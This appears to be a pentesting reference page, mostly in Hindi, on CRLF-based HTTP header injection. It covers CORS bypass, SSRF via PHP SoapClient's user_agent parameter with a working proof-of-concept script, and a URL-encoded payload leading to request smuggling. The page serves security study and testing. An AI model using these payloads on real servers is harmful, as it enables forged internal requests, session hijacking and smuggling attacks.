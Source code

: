 ### HTTP Header Injection

HTTP Header Injection, अक्सर CRLF (Carriage Return and Line Feed) इंजेक्शन के माध्यम से शोषित किया जाता है, हमलावरों को HTTP हेडर डालने की अनुमति देता है। यह XSS (Cross-Site Scripting) फ़िल्टर या SOP (Same-Origin Policy) जैसे सुरक्षा तंत्रों को कमजोर कर सकता है, जिससे संवेदनशील डेटा, जैसे CSRF टोकन, तक अनधिकृत पहुंच या कुकी प्लांटिंग के माध्यम से उपयोगकर्ता सत्रों में हेरफेर हो सकता है।

#### Exploiting CORS via HTTP Header Injection

एक हमलावर HTTP हेडर इंजेक्ट कर CORS (Cross-Origin Resource Sharing) को सक्षम कर सकता है, SOP द्वारा लगाए गए प्रतिबंधों को बायपास करते हुए। यह उल्लंघन दुर्भावनापूर्ण मूल से स्क्रिप्टों को एक अलग मूल से संसाधनों के साथ बातचीत करने की अनुमति देता है, संभावित रूप से संरक्षित डेटा तक पहुंच प्राप्त करता है।

#### SSRF and HTTP Request Injection via CRLF

CRLF इंजेक्शन का उपयोग एक पूरी तरह से नई HTTP अनुरोध बनाने और इंजेक्ट करने के लिए किया जा सकता है। इसका एक उल्लेखनीय उदाहरण PHP के `SoapClient` क्लास में है, विशेष रूप से `user_agent` पैरामीटर के भीतर। इस पैरामीटर में हेरफेर करके, एक हमलावर अतिरिक्त हेडर और बॉडी सामग्री डाल सकता है, या यहां तक कि पूरी तरह से एक नया HTTP अनुरोध इंजेक्ट कर सकता है। नीचे इस शोषण को प्रदर्शित करने वाला एक PHP उदाहरण है:
```php
$target = 'http://127.0.0.1:9090/test';
$post_string = 'variable=post value';
$crlf = array(
'POST /proxy HTTP/1.1',
'Host: local.host.htb',
'Cookie: PHPSESSID=[PHPSESSID]',
'Content-Type: application/x-www-form-urlencoded',
'Content-Length: '.(string)strlen($post_string),
"\r\n",
$post_string
);

$client = new SoapClient(null,
array(
'uri'=>$target,
'location'=>$target,
'user_agent'=>"IGN\r\n\r\n".join("\r\n",$crlf)
)
);

# Put a netcat listener on port 9090
$client->__soapCall("test", []);
```
### Header Injection to Request Smuggling

इस तकनीक और संभावित समस्याओं के बारे में अधिक जानकारी के लिए [**मूल स्रोत की जांच करें**](https://portswigger.net/research/making-http-header-injection-critical-via-response-queue-poisoning).

आप आवश्यक हेडर इंजेक्ट कर सकते हैं ताकि **बैक-एंड कनेक्शन को खुला रखे** प्रारंभिक अनुरोध का उत्तर देने के बाद:
```
GET /%20HTTP/1.1%0d%0aHost:%20redacted.net%0d%0aConnection:%20keep-alive%0d%0a%0d%0a HTTP/1.1
```
Afterward, a second request can be specified. This scenario typically involves [HTTP request smuggling](http-request-smuggling/), एक तकनीक जहां सर्वर द्वारा इंजेक्शन के बाद जोड़े गए अतिरिक्त हेडर या बॉडी तत्व विभिन्न सुरक्षा शोषणों का कारण बन सकते हैं।
